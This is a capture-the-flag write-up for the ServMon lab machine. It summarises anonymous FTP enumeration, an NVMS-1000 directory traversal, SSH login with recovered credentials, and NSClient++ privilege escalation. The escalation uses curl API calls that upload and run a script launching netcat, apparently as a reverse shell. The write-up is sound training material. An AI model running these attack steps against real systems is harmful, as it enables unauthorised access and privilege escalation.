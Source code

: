 # Summary
- Takeaways:
    - use Burp Repeater rather than trying to handcraft exploit requests
    - use `--path-as-is` option with `curl` when attempting directory traveral to preserve directory movement sequences
    - check all known passwords with all known usernames
    - notice there is sometimes a difference between localhost and 127.0.0.1 in commands
- User: file left on FTP hinting to target for NVMS-1000 directory traversal exploit
- Root: local password and NSClient++ local privilege escalation exploit

# Details
### User: a0805b545ea61f0ff92969d0f64370b7
- Nmap scan reveals ports 21, 22, 80, 135, 139, 445, 5040, 5666, 6063, 6699, 8443, and 49664-49670 are open
- FTP allows anonymous login and hints to a file located at `/Users/Nathan/Desktop/Passwords.txt` and that usernames `Nathan` and `Nadine` likely exist
- use NVMS-1000 directory traversal exploit to retrieve the file and try each combination of username and password to attempt SSH login, finding that `nadine` and `L1k3B1gBut7s@W0rk` work

### Root: 600b74829e6f0c69177971450eccb34d
- login password for NSClient++ located in `C:\Program Files\NSClient++\nsclient.ini` ()
- NSClient++ only allows logins from 127.0.0.1, so port forward port 8443 using `ssh -L 8443:127.0.0.1:8443 nadine@servmon.htb` in order to gain access
    - localhost does not work but 127.0.0.1 does
- upload `nc.exe` to target and use NSClient++ local privilege escalation exploit to add script that runs it
    - https://www.exploit-db.com/exploits/46802
    - `curl -k -s -u admin:ew2x6SsGTxjRwXOT https://localhost:8443/api`, general API access
    - `curl -k -s -u admin:ew2x6SsGTxjRwXOT -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/shell.bat --data-binary @shell.bat`, upload script to call `nc.exe`
    - `curl -k -i -u admin:ew2x6SsGTxjRwXOT https://localhost:8443/api/v1/queries`, execute previously uploaded script
